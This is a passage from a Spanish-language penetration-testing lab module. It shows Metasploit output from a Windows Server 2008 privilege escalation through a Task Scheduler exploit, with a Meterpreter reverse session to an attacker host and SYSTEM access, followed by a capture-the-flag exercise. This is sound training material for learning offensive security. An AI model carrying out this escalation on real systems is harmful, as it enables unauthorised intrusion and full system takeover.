 ```r
[*] isqR4gw3RlxnplB                          6/1/2021 1:04:00 PM    Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (175174 bytes) to 10.129.43.15
[*] SUCCESS: Attempted to run the scheduled task "isqR4gw3RlxnplB".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.3:4443 -> 10.129.43.15:49634) at 2021-05-12 16:04:34 -0400
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" was successfully deleted.
[*] SCHELEVATOR


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo

Computer        : WINLPE-2K8
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
```

---

## Attacking Server 2008

Tomando los ejemplos de enumeración que hemos pasado en este módulo, acceda al sistema a continuación, encuentre una forma de escalar a acceso de nivel `NT AUTHORITY\SYSTEM` (puede haber más de una forma), y envíe el archivo `flag.txt` en el escritorio del Administrador. Desafíese a escalar privilegios de múltiples maneras y no simplemente reproduzca la escalación de privilegios del Task Scheduler detallada anteriormente.